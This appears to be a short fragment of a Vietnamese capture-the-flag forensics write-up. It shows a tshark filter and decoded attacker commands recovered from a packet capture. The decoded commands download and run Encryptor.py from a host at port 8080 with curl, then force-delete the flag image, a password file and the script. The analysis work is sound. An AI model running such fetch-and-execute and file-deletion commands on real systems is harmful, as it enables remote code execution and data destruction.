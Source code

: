 tshark -r Capture.pcapng -Y "ip.addr == 192.168.111.130 && data && tcp && data.len < 1000" -T fields -e data

```bash
$ python tcp_dec.py tcp_data.txt
[01] whoami
[02] cd
[03] dir
[04] echo ](leZd*PkwSY%D3a,fUQ > password.txt
[05] curl http://192.168.111.130:8080/Encryptor.py
[06] curl http://192.168.111.130:8080/Encryptor.py --output Encryptor.py
[07] python Encryptor.py
[08] del /f IPC_Flag.png
[09] del /f password.txt
[10] del /f Encryptor.py
[11] exit
```

# Bài xàm buồi ko làm nữa
